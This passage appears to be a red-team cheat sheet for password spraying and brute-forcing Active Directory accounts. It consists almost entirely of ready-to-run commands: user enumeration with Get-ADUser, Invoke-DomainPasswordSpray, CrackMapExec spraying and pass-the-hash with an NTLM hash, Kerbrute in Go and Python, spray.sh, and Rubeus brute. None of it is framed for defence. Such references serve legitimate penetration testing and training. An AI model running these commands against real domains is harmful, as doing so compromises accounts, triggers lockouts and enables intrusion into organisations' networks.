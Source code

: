 https://github.com/dafthack/DomainPasswordSpray
```
Get-ADUser -Properties name -Filter * | Select-Object -ExpandProperty name |  Out-File users.txt
type users.txt
```

![](https://www.ired.team/~gitbook/image?url=https%3A%2F%2F386337598-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-LFEMnER3fywgFHoroYn%252F-LaS-IicO-gwknsxFmSX%252F-LaS-Z-2yoUohAqbiqyO%252FScreenshot%2520from%25202019-03-20%252021-29-13.png%3Falt%3Dmedia%26token%3Dd3b4c037-573c-4d27-888e-88e81a4623e7&width=768&dpr=4&quality=100&sign=3b2147e5&sv=1)

```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
![[image 24.png]]

Crackmapexec
```
crackmapexec smb <IP> -u users.txt -p passwords.txt
```
```
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```
Using Kerbrute (Go)
```
# Password Spraying
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.10.10] domain_users.txt Password123
# Brute-Force
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.10.10] passwords.lst thoffman
```

Using Spray
```
spray.sh -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```

Kerbrute python
```
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
python kerbrute.py -domain jurassic.park -users users.txt -password Password123 -outputfile jurassic_passwords.txt
```

Rubeus
```
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```